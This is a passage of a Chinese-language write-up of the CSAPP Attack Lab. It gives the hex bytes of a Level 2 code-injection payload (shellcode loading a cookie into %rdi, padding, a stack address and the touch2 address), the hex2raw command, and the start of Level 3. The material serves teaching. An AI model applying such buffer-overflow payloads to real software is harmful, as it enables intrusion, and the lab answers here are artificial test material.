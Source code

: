 ```text
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

**注意：**因为这里是64位程序，所以需要用8字节来表示地址。

然后再将其转化为对应的字符串`./hex2raw < CI-L2.txt > CI-L2-raw.txt`。

![img](pics/v2-788b313fbed4acfcce19c9d11ee75a5b_720w.jpg)

### Level 3

该题目标是将返回函数重定位到函数`touch3`，而该函数需要传递一个字符串参数

![img](pics/v2-09bcf26d6348a31e3191e658aff54143_720w.jpg)

要求我们传递进去的字符串是cookie，即`0x59b997fa`字符串形式，并且缺少`0x`，即字符串内容为`59b997fa`。

![img](pics/v2-7fe431b58e3bdbc343039de085993b43_720w.jpg)
